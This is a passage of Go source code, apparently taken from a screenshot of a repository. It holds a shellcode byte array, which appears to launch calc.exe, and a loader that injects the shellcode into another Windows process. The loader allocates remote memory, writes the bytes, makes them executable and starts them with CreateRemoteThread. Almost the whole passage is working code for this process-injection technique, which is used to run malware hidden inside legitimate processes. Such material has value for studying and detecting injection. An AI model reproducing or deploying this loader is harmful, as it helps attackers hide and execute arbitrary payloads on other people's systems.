 ```golang
      0xff, 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 
      0x85, 0xb2, 0x00, 0x00, 0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 
      0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 
      0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 
      0x6a, 0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 
      0x00}

   if err != nil {
      fmt.Println("Error decoding shellcode.")
   }

   mSize := len(shellcode)

   address, _, _ := virtualAlloc.Call(
      uintptr(process),
      uintptr(0),
      uintptr(mSize),
      windows.MEM_COMMIT|windows.MEM_RESERVE,
      windows.PAGE_READWRITE,
   )

   fmt.Printf("Memory allocated at address: 0x%x\n", address)

   _, _, err = writeProcessMem.Call(
      uintptr(process),
      uintptr(address),
      (uintptr)(unsafe.Pointer(&shellcode[0])),
      uintptr(mSize),
      uintptr(0),
   )

   if strings.Contains(err.Error(), "successfully") {
      fmt.Println("Memory written successfully.")

   } else {
      fmt.Println("Unable to write into remote process.")
   }

   op := 0
   _, _, err = virtualProtect.Call(
      uintptr(process),
      uintptr(address),
      uintptr(mSize),
      windows.PAGE_EXECUTE_READ,
      uintptr(unsafe.Pointer(&op)),
   )
   if strings.Contains(err.Error(), "successfully") {
      fmt.Println("Virtual protect called successfully.")

   } else {
      fmt.Println("Unable to Virtual protect.")
   }

   _, _, err = CreateRemoteThread.Call(
      uintptr(process),
      0,
      0,
      uintptr(address),
      0,
      0,
      0,
   )
   if strings.Contains(err.Error(), "successfully") {
```
